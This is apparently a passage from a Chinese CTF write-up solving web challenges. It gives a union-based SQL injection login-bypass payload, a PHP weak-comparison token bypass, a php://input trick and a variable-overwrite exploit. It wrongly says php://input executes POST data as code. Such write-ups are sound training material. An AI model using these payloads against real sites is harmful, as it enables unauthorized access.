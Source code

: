 ![20220720154707](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220720154707.png)

tips 说是 union 查询, 想了想可以通过 union 构造一条"虚假"的数据传递到 `$query['pw]` 里

POST 提交

`user='union select md5(1)#&pass=1`

注意 url 编码, 以及我们要把 union 前面的数据设置为空, 这样才能保证输出的结果都是 union 后面的结果

这里的 `select md5(1)` 返回的结果就相当于 `select pw` 了, 列名是对应的

![20220720155033](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220720155033.png)

## 综合题2

这题比较长, 单独拎出来写

## 密码重置2

tips 提示已经很明显了

右键查看源代码得到管理员邮箱为 `admin@nuptzj.cn`

vi vim 异常退出的备份文件名为 `.filename.swp`

![20220720155255](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220720155255.png)

```php
if(strlen($token)!=10) die('fail');
if($token!='0') die('fail');
```

直接输入 `0000000000`

因为 PHP 弱类型的问题, 在使用 `==` 进行比较时, `0` `'0'` 和 `'0000000000'` 是"相同"的

## file_get_contents

```php
<!--$file = $_GET['file'];
if(@file_get_contents($file) == "meizijiu"){
    echo $nctf;
}-->
```

GET 传参, 还要读取文件, 用 PHP 伪协议

`php://input` 可以将 POST 中的内容作为 PHP 代码来执行

![20220720160134](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220720160134.png)

## 变量覆盖 (另一道)

```php
<!--foreach($_GET as $key => $value){  
        $$key = $value;  
}  
if($name == "meizijiu233"){
    echo $flag;
}-->
```

`http://chinalover.sinaapp.com/web24/?name=meizijiu233`